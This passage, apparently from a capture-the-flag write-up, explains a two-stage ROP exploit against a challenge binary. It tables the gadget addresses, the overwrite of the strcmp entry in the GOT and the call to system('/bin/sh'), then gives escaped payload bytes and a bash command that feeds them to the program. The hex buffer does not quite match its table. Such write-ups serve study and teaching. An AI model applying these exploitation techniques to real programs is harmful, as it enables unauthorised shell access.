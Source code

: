 ###Data for the first read:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
0x42..0x42       | 32 bytes       | Initial padding (fills the buffer)
0x42..0x42       | 8 bytes        | Overwrites saved frame pointer
0x004005a5       | 8 bytes        | Address of "pop rbp; ret" gadget 
0x00601050       | 8 bytes        | Address of __libc\_start\_main entry in .got.plt, target of the second read (+ 0x20)
0x00400670       | 8 bytes        | Address of the `read` snippet 
0x00400743		| 8 bytes			| Address of "pop rdi; ret" gadget, to make `rdi` point to the "/bin/sh" command
0x00601030       | 8 bytes        | Address of "/bin/sh"
0x004006d2       | 8 bytes        | Address of a "ret" gadget, just to keep the stack aligned for 64 bits function calls (`ret` is the `nop` of ROP world)
0x004006c7       | 8 bytes        | Address to the `call sym.imp.system` instruction in the `main`

Porting this to 64-bit little endian addresses, and escaping everything for `bash`-friendliness, here is the first buffer:

~~~
\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x42\x07\x40\x00\x00\x00\x00\x00\xa5\x05\x40\x00\x00\x00\x00\x00\x50\x10\x60\x00\x00\x00\x00\x00\x70\x06\x40\x00\x00\x00\x00\x00\x43\x07\x40\x00\x00\x00\x00\x00\x30\x10\x60\x00\x00\x00\x00\x00\xd2\x06\x40\x00\x00\x00\x00\x00\xc7\x06\x40\x00\x00\x00\x00\x00
~~~

### Data for the second read:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
/bin/sh\x00      | 8 bytes        | Our evil command
0x00400743       | 8 bytes        | Address of the "pop rdi; ret" here used to return back to our ROP chain by overwriting this pointer to the `strcmp` entry in .got.plt

Here again, bash-friendly:

~~~
\x2f\x62\x69\x6e\x2f\x73\x68\x00\x43\x07\x40\x00\x00\x00\x00\x00
~~~

## Running and cinema

Here is the command line used to send escaped bytes to stdin:

```bash
 while read -r line; do echo -e $line; done | ./s5
```
[![asciicast](https://asciinema.org/a/8dzqjsi9wfbx3v8ex4pyxqsdo.png)](https://asciinema.org/a/8dzqjsi9wfbx3v8ex4pyxqsdo)


